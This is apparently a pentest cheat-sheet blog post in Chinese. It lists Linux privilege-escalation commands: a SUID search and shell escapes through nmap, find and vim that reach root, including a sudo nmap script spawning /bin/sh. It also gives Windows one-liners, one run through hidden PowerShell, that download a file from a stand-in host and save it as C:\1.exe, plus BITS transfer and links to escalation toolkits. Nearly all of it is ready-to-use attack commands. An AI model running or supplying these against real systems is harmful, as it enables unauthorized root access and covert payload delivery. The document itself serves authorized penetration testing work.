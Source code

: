 ```yaml
---
layout: post
title: Pentest Note / CheatSheet
---
```


## Linux

### 本地提权

#### suid

查找拥有suid权限位的文件

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
sudo -l
```

nmap

```
nmap --interactive
nmap> !sh
sh-3.2# whoami
root

msf exploit/unix/local/setuid_nmap

echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse

```

find

```
touch test
find test -exec whoami \;
```

vim

```
:set shell=/bin/sh
:shell

sudo vim -c '!sh'
```



## Windows

### 下载执行

在某些低权限情况下只能使用这个命令，使用`-UseBasicParsing`避免调用IE解析DOM

`Invoke-WebRequest -Uri $url -OutFile $outfile -UseBasicParsing`

`powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://example.com/1.jpg','C:\1.exe')`

替代bitsadmin

`Start-BitsTransfer -Source $file -Destination C:\1.exe –Asynchronous`

### 本地提权

#### 可用工具

```
msf post/multi/recon/local_exploit_suggester 
https://github.com/bitsadmin/wesng
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
```
